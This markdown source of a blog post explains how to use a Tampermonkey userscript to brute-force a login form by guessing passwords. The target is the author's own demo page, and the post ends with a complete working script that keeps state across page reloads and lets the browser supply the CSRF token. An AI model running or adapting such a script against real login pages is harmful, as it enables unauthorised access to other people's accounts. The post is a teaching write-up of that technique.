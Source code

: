 ```yaml
---
layout: post
title: "Automating web application attacks with Tampermonkey"
thumbnail: monkey-240.jpg
date: 2017-05-24
---
```


[Tampermonkey](https://tampermonkey.net/) and [Greasemonkey](http://www.greasespot.net/) are userscript managers that make it possible to add custom Javascript functionality to web pages. User scripts can be used to customize pages, or to automate web interactions. In this post we will try to use Tampermonkey to automate filling out a login form, to try to brute force credentials.

## Submitting a form with Tampermonkey

Tampermonkey makes it possible to add custom Javascript to a page. This means we can program a little bit of functionality, like submitting a login form with credentials.

As an example, we will try to brute-force [this login form](http://demo.sjoerdlangkemper.nl/login.php). We create a new user script in Tampermonkey, and add the following code to fill out the form and submit it:


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        usernameElem.value = 'admin';

        let passwordElem = document.getElementById('password');
        passwordElem.value = '123';

        document.getElementsByTagName('form')[0].submit();
    })();

Save the script, and reload the login form. Note that it keeps refreshing the page over and over again. When we submit the form the page reloads, and this triggers our script again which submits the form, and so on. Use the escape key to end this endless loop.

![Failed login](/images/tampermonkey-failed-login.png "Failed login")

## Looping over passwords

Constantly submitting the form is basically what we want, except that we want to try another password each time. Note that a for loop would not work:

    (function() {
        'use strict';

        // Doesn't work
        for (let i = 0; i < 100; i++) {
            ...
            passwordElem.value = i;

            document.getElementsByTagName('form')[0].submit();
        }
    })();

After the first loop the form is submitted, our script is stopped and the page is reloaded. The value of `i` is not kept between page reload, so the loop starts again without incrementing `i`.

Instead, we need a way to keep state across page reloads. The functions [`GM_setValue`](https://tampermonkey.net/documentation.php#GM_setValue) and [`GM_getValue`](https://tampermonkey.net/documentation.php#GM_getValue) can do just that. To use these functions, first enable them with a grant header:

    @grant GM_setValue
    @grant GM_getValue

Then when the script is run, retrieve the value, increase it, and store it again:

    let counter = GM_getValue('counter', 0);
    counter += 1;
    passwordElem.value = counter;
    GM_setValue('counter', counter);

Note that the values stored with `GM_setValue` are persisent and can only be cleared by the Tampermonkey script. This can be annoying if you want to start your loop again from the start. While developing, you could add a button to the page to reset the counter:

    let buttonElem = document.createElement('button');
    buttonElem.innerHTML = 'restart';
    buttonElem.addEventListener('click', function() {
        GM_setValue('counter', 0);
        window.location = window.location.href;
    });
    document.body.appendChild(buttonElem);

## Handling success

With the script so far we try incremental numbers as passwords. However, when we have succeeded to log in we want to know what the correct password was. So we have to detect when we are logged in and print the password that was last used. To do this, we check whether the username field is present. If we have logged in, the login form with the username field will no longer be shown. If it is not present, we log the last password used:

    let usernameElem = document.getElementById('username');
    if (usernameElem) {
        ...
    } else {
        console.log('The password is ' + GM_getValue('counter'));
    }

## Running the script

Now, if we run the complete script (which can be found at the end of this post), it tries incremental numbers as password until the page no longer shows the login form, and then prints the correct password in the console.

![Successfully logged in](/images/tampermonkey-logged-in.png "Successfully logged in")

## Conclusion

In this post we have shown that Tampermonkey can be used to automate browser behavior in order to brute-force a login page.

The advantage of using Tampermonkey in brute-force attacks is that you get the default browser behavior. For example, the example form has CSRF protection, but we did nothing to obtain a valid CSRF token and submit that with the following request. The browser already does this for us. Furthermore, you can easily see what is happening as each response is rendered in the browser.

A disadvantage is that it is a lot slower than issueing requests in a script or using Burp Intruder. Also, the way to implement a loop with `GM_setValue` makes the code a bit awkward.

## Appendix: complete script

The complete script looks like this:

    // ==UserScript==
    // @name         Hack sjoerdlangkemper.nl
    // @namespace    https://www.sjoerdlangkemper.nl/
    // @version      0.1
    // @description  Brute-force a login page
    // @author       Sjoerd Langkemper
    // @match        http://demo.sjoerdlangkemper.nl/login.php
    // @grant        GM_setValue
    // @grant        GM_getValue
    // ==/UserScript==


    (function() {
        'use strict';

        let usernameElem = document.getElementById('username');
        if (usernameElem) {
            usernameElem.value = 'admin';

            let passwordElem = document.getElementById('password');

            let counter = GM_getValue('counter', 0);
            counter += 1;
            passwordElem.value = counter;
            GM_setValue('counter', counter);

            document.getElementsByTagName('form')[0].submit();
        } else {
            console.log('The password is ' + GM_getValue('counter'));

            let buttonElem = document.createElement('button');
            buttonElem.innerHTML = 'restart';
            buttonElem.addEventListener('click', function() {
                GM_setValue('counter', 0);
                window.location = window.location.href;
            });
            document.body.appendChild(buttonElem);
        }
    })();



